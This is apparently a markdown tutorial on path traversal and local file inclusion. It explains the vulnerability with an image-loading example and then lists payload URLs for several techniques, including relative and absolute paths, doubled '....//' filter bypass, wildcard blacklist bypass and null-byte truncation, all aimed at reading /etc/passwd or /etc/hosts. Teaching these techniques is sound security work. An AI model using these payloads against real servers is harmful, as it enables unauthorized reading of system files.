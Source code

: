 # Local File Inclusion/Directory Path traversal.
Path traversal is also known as directory traversal. These vulnerabilities ***enable an attacker to read arbitrary files on the server that is running an application***. <br />
In some cases, an attacker might be able to write to arbitrary files on the server, allowing them to modify application data or behavior, and ultimately take full control of the server. 

## Reading arbitrary files via path traversal
Imagine a shopping application that displays images of items for sale. This might load an image using the following HTML:<br />
`<img src="/loadImage?filename=218.png">`<br />
The loadImage **URL takes a filename parameter and returns the contents of the specified file**. The image files are stored on disk in the location `/var/www/images/`. To return an image, the application appends the requested filename to this base directory and uses a filesystem API to read the contents of the file. In other words, the application reads from the following file path:<br />
`/var/www/images/218.png`<br /><br />
This application implements no defenses against path traversal attacks. As a result, an attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem:<br />
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`<br /><br />

----------------------------------------------------

# Path traversal Types and Serialization.
## Absolut Path traversal.
In this type of Path traversal, results can be obtained by using the absolute path:<br />
`https://insecure-website.com/loadImage?filename=/etc/passwd`

## Relative Path traversal.
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

## Non-Recursive Sanitization Traversal.
In some cases, serialization techniques detect the path `../` and delete it. We can bypass this by doubling it and using `....//`:<br />
`https://insecure-website.com/loadImage?filename=....//....//....//....//etc/passwd`

## Black list bypass.
In other cases the server may have a black list that find some maches and invalidate them like `passwd`. We can bypass it using regular expresions `pass*`: <br />
- `https://insecure-website.com/loadImage?filename=....//....//....//....//etc/pass*`<br />
- `https://insecure-website.com/loadImage?filename=../../../../../etc/ho?ts`<br />
- `https://insecure-website.com/loadImage?filename=../../../../../e??/pa????`<br />


## Null byte Path Traversal.
Sometimes the developer may concatenate an exension to the file being searched. In this case, if we attempt to obtain the `/etc/passwd` , we might actually be searching for `/etc/passwd.php`. We can avoid this technique (Only if the PHP version is outdated) by using a null byte to override the extension.<br />
>  PHP solved this type of bypass since the version 5.3.4.<br /><br />
`https://insecure-website.com/loadImage?filename=../../../../../etc/passwd%00`<br />
